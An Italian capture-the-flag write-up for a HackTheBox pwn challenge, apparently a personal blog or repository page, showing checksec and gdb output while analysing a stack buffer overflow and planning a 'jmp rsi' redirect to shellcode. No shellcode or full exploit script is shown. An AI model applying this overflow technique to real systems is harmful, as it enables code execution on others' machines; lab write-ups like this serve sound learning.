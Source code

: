 La challenge metteva a disposizione un binario da analizzare.
```
$ pwn checksec regularity
[*] '/home/kali/share/htb/challenges/regularity/pwn_regularity/regularity'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
```
$ ldd regularity  
        not a dynamic executable
```
Analizzo il binario su Binary Ninja:
![bin_start](https://github.com/user-attachments/assets/7dd2aec3-02ed-4ffc-ae8d-f8025f8a39de)

Il flusso sembra essere chiaro, dentro _start ci sono 3 chiamate a funzione: write, read e ancora write.
Analizzo le funzioni chiamate:
![bin_read_write](https://github.com/user-attachments/assets/95e54092-b44e-47aa-8f80-04dcf098d7bb)

Nella funzione read sembra che vengano liberati 0x100 bytes per far spazio al buffer. Quando la syscall viene chiamata per leggere il buffer tuttavia, vengono passati 0x110 bytes!
Per sfruttare questo overflow e aggirare il problema ASLR è necessario sapre quale sarà l'indirizzo dove viene locato il buffer:
```
$ gdb -q regularity
Reading symbols from regularity...
(No debugging symbols found in regularity)
(gdb) b *0x40106e
Breakpoint 1 at 0x40106e
(gdb) r
Starting program: /home/kali/htb/challenges/regularity/pwn_regularity/regularity 
Hello, Survivor. Anything new these days?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x000000000040106e in read ()
(gdb)  x/8gx $rsp-0x100
0x7fffffffdd78: 0x4141414141414141      0x4141414141414141
0x7fffffffdd88: 0x4141414141414141      0x4141414141414141
0x7fffffffdd98: 0x4141414141414141      0x4141414141414141
0x7fffffffdda8: 0x4141414141414141      0x0000000a41414141
```
Quindi 0x7fffffffdd78 è l'indirizzo dove è locato il buffer. Controllo i registri:
```
(gdb) info reg
...
rsi            0x7fffffffdd78      140737488346488
...
```
rsi punta proprio all'indirizzo del buffer! Come abbiamo visto in _start rsi viene utilizzato per uscire con l'istruzione:

mov rsi, exit <br/>
jmp rsi {exit}

A questo punto posso sovrascrivere il puntatore di uscita della funzione 'read' (0x40106e) con l'indirizzo di 'jmp rsi' per saltare alla mia shellcode.
![Screenshot_2024-11-07_17-30-25](https://github.com/user-attachments/assets/a06d0f81-3b05-4808-b0ad-45c1155613fa)
